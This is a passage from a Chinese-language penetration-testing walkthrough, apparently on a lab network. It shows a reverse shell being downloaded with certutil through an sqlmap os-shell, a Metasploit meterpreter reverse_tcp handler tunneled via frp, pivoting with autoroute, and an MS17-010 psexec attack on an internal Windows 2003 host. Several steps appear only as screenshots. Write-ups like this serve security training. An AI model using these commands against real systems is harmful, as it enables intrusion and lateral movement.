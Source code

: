   

那么此时，我需要这台Server_5运行我的一个反弹shell，让他可以和我的kali当中msf建立起会话，这个时候刚刚在frp_server当中启用的一个http服务就起作用了

可以看到，当前的目录路径是在C:\WINDOWS\SYSTEM32

那么，我们可以使用certutil.exe，一般看到成功完成就代表下载下来了，所以我就不dir来查看了

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210809143301.png)

  

然后kali开启msfc

  *   *   *   *   *   *   *   * 

    
    
    msf> use exploit/multi/handlermsf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcppayload=> windows/meterpreter/reverse_tcpmsf exploit(multi/handler) > set LHOST 127.0.0.1LHOST=> 127.0.0.1msf exploit(multi/handler) > set LPORT 5555 //这里的端口是frpc上面的local端口，记得一定要一样啊LPORT=> 5555msf exploit(multi/handler) > exploit

接下来在sqlmap的os-shell当中运行reverse.exe

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210809143302.png)

  

MSF当中出现会话

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210809143303.png)

  

此时，因为我知道我还要对内网的一台2003进行渗透，那么就需要添加一下路由了，利用这台Server_5

先挂起会话，这里用post/multi/manage/autoroute

![]()

  

那么先进来shell当中看看，这里我是想直接扫描内网存活主机的，但是很容易就卡死了，所以我就直接shell到Server_5当中看arp表了

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210809143304.png)

  

172.16.192.4这台主机，这里因为前面说的扫描卡死了，所以我就没有一开始扫描判断操作系统了，因为我知道这台就是那台2003（这里很粗糙，有太多已知因素）

这里使用(windows/smb/ms17_010_psexec)对目标进行攻击

先把payload改为

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210809143305.png)

然后

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210809143306.png)

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210809143307.png)
